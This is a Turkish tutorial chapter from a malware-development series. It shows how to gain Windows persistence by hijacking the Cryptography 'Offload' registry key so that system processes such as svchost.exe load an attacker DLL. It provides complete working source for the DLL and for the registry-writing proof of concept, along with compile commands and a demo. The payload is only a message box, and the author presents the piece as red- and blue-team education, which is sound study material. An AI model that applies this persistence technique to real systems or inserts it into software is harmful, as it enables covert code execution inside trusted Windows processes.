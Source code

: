\newpage
\subsection{82. kötü amaçlı yazılım geliştirme: kalıcılık - bölüm 16. Kriptografi Kayıt Defteri anahtarları. Basit C++ örneği}

﷽

![pers](./images/76/2022-10-21_05-25.png){width="80%"}    

Bu makale, kötü amaçlı yazılımların **kalıcılığı sağlamak için** kullanabileceği ilginç bir teknik üzerine yaptığım araştırmanın bir sonucudur: **Kriptografi Kayıt Defteri Anahtarı aracılığıyla kalıcılık**.    

Kayıt defterini incelerken ilginç bir yol keşfettim:    

`HKLM\Software\Microsoft\Cryptography\`     

Bu yol altında `OffloadModExpo` adlı bir fonksiyon bulunmaktadır. Anladığım kadarıyla, bu işlev hem açık anahtar hem de özel anahtar işlemleri için modüler üs alma işlemlerini gerçekleştirmek için kullanılıyor.     

![pers](./images/76/2022-10-21_05-45.png){width="80%"}    

Detaylara çok fazla girmedim, ancak bu anahtar ve değeri Windows kayıt defterinde değiştirme olasılığı benim için yeterince ilginçti. Bu yüzden bu DLL yolunu ele geçirmeyi denedim:    

`HKLM\Software\Microsoft\Cryptography\Offload` ve anahtar değeri.    

### pratik örnek

Öncelikle, her zamanki gibi "kötü amaçlı" bir DLL oluşturuyoruz. Basit olarak `meow-meow` mesaj kutusu açan bir DLL (`hack.c`):    

```cpp
/*
hack.c - kötü amaçlı DLL
Kriptografi kayıt defteri yolunun kaçırılması
yazar: @cocomelonc
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule, DWORD ul_reason_for_call, LPVOID lpReserved) {
    switch (ul_reason_for_call)  {
    case DLL_PROCESS_ATTACH:
      MessageBox(
        NULL,
        "Meow-meow!",
        "=^..^=",
        MB_OK
      );
      break;
    case DLL_PROCESS_DETACH:
      break;
    case DLL_THREAD_ATTACH:
      break;
    case DLL_THREAD_DETACH:
      break;
    }
    return TRUE;
}
```

Derleme işlemi:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.c
```

Ve ardından kayıt defteri ele geçirme PoC kodunu oluşturuyoruz (`pers.cpp`):    

```cpp
/*
pers.cpp
Windows kalıcılık yöntemi: Kriptografi DLL yolunu kaçırma
yazar: @cocomelonc
*/

#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // Kayıt defteri yolu
  const char* path = "SOFTWARE\\Microsoft\\Cryptography\\Offload";

  // Kötü amaçlı DLL yolu
  const char* evil = "Z:\\2022-10-21-malware-pers-16\\hack.dll";

  // Anahtar oluşturma
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)path, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_ALL_ACCESS, NULL, &hkey, 0);
  if (res == ERROR_SUCCESS) {
    // Kayıt defteri anahtar değerini ayarlama
    RegSetValueEx(hkey, (LPCSTR)"ExpoOffload", 0, REG_SZ, (unsigned char*) evil, strlen(evil));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Deney için ihtiyacım olan tek şey bu.

### demo

Her şeyi çalışırken görelim. Proof-of-Concept kodumuzu derleyelim:    

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe \
-I/usr/share/mingw-w64/include/ -s \
-ffunction-sections -fdata-sections -Wno-write-strings \
-fno-exceptions -fmerge-all-constants \
-static-libstdc++ -static-libgcc -fpermissive
```

![pers](./images/76/2022-10-21_05-21.png){width="80%"}    

Daha sonra, deneyin saflığını korumak için kurban makinedeki kayıt defteri anahtarlarını kontrol edelim ve varsa silelim:    

```powershell
reg query "HKLM\SOFTWARE\Microsoft\Cryptography\Offload" /s
```

![pers](./images/76/2022-10-21_05-23.png){width="80%"}    

Ardından, `pers.exe` betiğimizi çalıştırıp tekrar kontrol edelim:     

![pers](./images/76/2022-10-21_05-24.png){width="80%"}    

Şimdi bir şeyler çalıştırmayı deneyeceğim. Örneğin, tarayıcıda `https:\...` bağlantısını açmayı veya arama çubuğunu kullanmayı deneyeceğim.    

![pers](./images/76/2022-10-21_05-25_1.png){width="80%"}    

Arka planda bazı kriptografik işlemler gerçekleştirilirken, ekranda giderek daha fazla açılır pencere göreceğiz.    

![pers](./images/76/2022-10-21_05-27.png){width="80%"}    

![pers](./images/76/2022-10-21_05-27_1.png){width="80%"}    

![pers](./images/76/2022-10-21_05-28.png){width="80%"}    

Ayrıca, durumu incelemek için `Process Hacker 2` programını bile çalıştıramadım.     

![pers](./images/76/2022-10-21_06-09.png){width="80%"}    

Daha sonra sanal makine anlık görüntümü geri yükledim ve şu filtrelerle Sysinternals `Procmon`'u çalıştırdım:     

![pers](./images/76/2022-10-21_06-20.png){width="80%"}    

![pers](./images/76/2022-10-21_06-22.png){width="80%"}    

Ve sonuç olarak:     

![pers](./images/76/2022-10-21_06-24.png){width="80%"}    

![pers](./images/76/2022-10-21_06-25.png){width="80%"}    

Gördüğünüz gibi, belirli bir aşamada benim "kötü amaçlı" `meow-meow` DLL'im `svchost.exe`, `ProcessHacker.exe` ve diğer süreçler tarafından yüklendi.    

Her şey doğru çalıştı. Mükemmel! Perfectly! =^..^=      

Deneyler tamamlandıktan sonra kayıt defteri durumumu geri yükledim:     

![pers](./images/76/2022-10-21_05-33.png){width="80%"}    

Bu taktik ve yöntemin vahşi doğada herhangi bir APT tarafından kullanılıp kullanılmadığını bilmiyorum, ancak bu yazının, özellikle yazılım geliştirirken, mavi takım üyelerinin bu ilginç teknik hakkında farkındalık kazanmasına yardımcı olmasını ve kırmızı takım üyeleri için bir silah eklemesini umuyorum.    

[OffloadModExpo](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/legacy/aa387021(v=vs.85))     
[DLL hijacking](https://cocomelonc.github.io/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](https://cocomelonc.github.io/pentest/2021/10/12/dll-hijacking-2.html)     
[github'taki kaynak kod](https://github.com/cocomelonc/meow/tree/master/2022-10-21-malware-pers-16)     

